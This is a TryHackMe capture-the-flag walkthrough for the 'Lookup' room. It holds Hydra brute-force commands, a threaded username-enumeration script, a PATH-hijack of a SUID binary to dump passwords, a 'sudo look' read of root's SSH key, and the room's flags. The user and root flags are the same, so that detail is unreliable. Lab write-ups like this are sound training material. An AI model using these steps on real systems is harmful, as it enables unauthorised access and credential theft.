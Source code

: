 # TryHackMe: Lookup - Original Writeup

**Difficulty:** Easy
**Objectives:** User flag, Root flag

---

## 1. Setup

Add the machine to your `/etc/hosts`:

```bash
echo "MACHINE_IP lookup.thm" | sudo tee -a /etc/hosts
```

Or manually using `nano`:

```bash
sudo nano /etc/hosts
MACHINE_IP lookup.thm
```

---

## 2. Initial Enumeration

Run an Nmap scan:

```bash
nmap -sVC -A lookup.thm -oN nmap.txt
```

**Findings:**

* **22/tcp:** SSH (OpenSSH 8.2p1)
* **80/tcp:** HTTP (Apache 2.4.41)

Visiting `http://lookup.thm` reveals a **login page**.

---

## 3. Web Brute Force

Test default credentials:

* `admin:admin`
* `admin:password`

These fail, but the error response:

```
Wrong password. Please try again.
```

indicates `admin` may be valid.

### Hydra Brute Force:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"
```

✅ **Found:** `admin:password123`

It fails to login, hinting the username may not be correct.

### Brute Force Usernames:

```bash
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"
```
# Username Enumeration Script with Threading for Lookup (TryHackMe)

This Python script helps **brute-force enumerate valid usernames** on `http://lookup.thm/` during CTFs or lab environments. It uses **threading for speed** and detects valid usernames based on error message differences.

---

## Script

```python
import requests
import threading
from queue import Queue

# ----- CONFIG -----
url = "http://lookup.thm/"
wordlist = "/usr/share/seclists/Usernames/Names/names.txt"
num_threads = 20  # Adjust for system/target stability
fixed_password = "admin"
output_file = "valid_usernames.txt"
# proxies = {"http": "http://127.0.0.1:8080"}

# ------------------

def worker():
    session = requests.Session()
    # session.proxies.update(proxies)

    while not q.empty():
        username = q.get()
        data = {
            "username": username,
            "password": fixed_password
        }
        try:
            response = session.post(url, data=data, timeout=5)

            if "Wrong password" in response.text:
                print(f"[+] Valid username found: {username}")
                with lock:
                    with open(output_file, "a") as f:
                        f.write(username + "\\n")

            # Optionally print invalids for debugging
            # elif "Wrong username or password" in response.text:
            #     print(f"[-] Invalid username: {username}")

            elif "Redirecting" not in response.text:
                print(f"[?] Unexpected response for {username}")

        except requests.RequestException as e:
            print(f"[!] Request failed for {username}: {e}")

        q.task_done()

# ----- Load Usernames into Queue -----
q = Queue()
with open(wordlist, "r") as f:
    for line in f:
        username = line.strip()
        if username:
            q.put(username)

# ----- Lock for file writing -----
lock = threading.Lock()

# ----- Start Threads -----
threads = []
for _ in range(num_threads):
    t = threading.Thread(target=worker, daemon=True)
    threads.append(t)
    t.start()

# ----- Wait for all to complete -----
q.join()

print("[*] Enumeration completed. Check valid_usernames.txt for results.")

---

✅ **Found:** `jose:password123`

Login with these credentials redirects to:

```
files.lookup.thm
```

Add this to `/etc/hosts`.

---

## 4. Exploring File Manager

Accessing `http://files.lookup.thm` reveals a **web file manager**. We find:

* `credentials.txt` containing `think:nopassword` (confirming the user `think`).
* The file manager is **elFinder 2.1.47**.

---

## 5. Exploiting elFinder

Check exploits:

```bash
searchsploit elFinder 2.1.47
```

Using **Metasploit's exiftran command injection exploit**, we gain a **Meterpreter shell as www-data**.

---

## 6. Privilege Escalation to User

### Finding SUID Binaries:

```bash
find / -perm -4000 2>/dev/null
```

Identified:

```
/usr/sbin/pwm
```

### Analyzing pwm

It calls `id` and tries to read `/home/www-data/.passwords`.

### PATH Hijacking:

```bash
cd /tmp
echo -e '#!/bin/bash\necho "uid=33(think) gid=33(think) groups=33(think)"' > id
chmod +x id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

Now `pwm` thinks it is `think` and dumps passwords, saved to `passwords.txt`.

### Brute Forcing SSH:

```bash
hydra -l think -P passwords.txt ssh://lookup.thm
```

✅ Found credentials for `think`, log in via SSH, and grab the **user flag**.

---

## 7. Privilege Escalation to Root

Check sudo permissions:

```bash
sudo -l
```

We find `look` available.

Using **GTFOBins**:

```bash
sudo look '' /root/.ssh/id_rsa
```

We capture the **root SSH private key**, save it locally:

```bash
echo "<PASTE_KEY>" > id_rsa
chmod 600 id_rsa
```

Log in as root:

```bash
ssh -i id_rsa root@lookup.thm
```

✅ Grab the **root flag**.

---

## ✅ Room Completed

* User flag: 38375fb4dd8baa2b2039ac03d92b820e
* Root flag: 38375fb4dd8baa2b2039ac03d92b820e

